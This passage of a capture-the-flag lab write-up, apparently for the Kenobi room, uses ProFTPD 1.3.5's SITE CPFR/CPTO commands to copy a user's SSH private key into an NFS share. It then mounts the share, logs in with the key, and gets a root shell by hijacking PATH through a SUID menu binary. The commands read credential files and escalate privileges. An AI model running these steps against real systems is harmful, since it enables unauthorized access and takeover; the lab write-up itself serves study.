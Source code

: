 ```bash
nc <ip> 21                        
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [<ip>]

SITE CPFR /home/kenobi/.ssh/id_rsa 
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

#### Retrieving key
```bash
mkdir /mnt/kenobi
mount <ip>:/var /mnt/kenobi
cp /mnt/kenobi/tmp/id_rsa .
```

#### Using Key
```bash
chmod 600 id_rsa
ssh -i ./id_rsa kenobi@<ip>
```
and we are in!

#### Privilege Esculation

#### Searching for root suid binaries
```bash
find / -perm -u=s -type f 2>/dev/null
```
This find typical binaries and files like ping, sudo etc and `/usr/bin/menu`

#### Exploiting this

Running `/usr/bin/menu` brings up 3 options that just look like preconfigured system commands.
```
strings /usr/bin/menu

curl -I localhost
uname -r
ifconfig
```
These are the commands that are being used and would be run as root, they don't specify a full path so we can exploit these using the PATH variable to redirect the issued command to our own binary that will be run as root.

```
cd /tmp
echo /bin/sh > curl
chmod 777 curl
PATH=/tmp:$PATH; /usr/bin/menu
```
Run the curl command via the menu binary and `#`, root shell!

### Blue
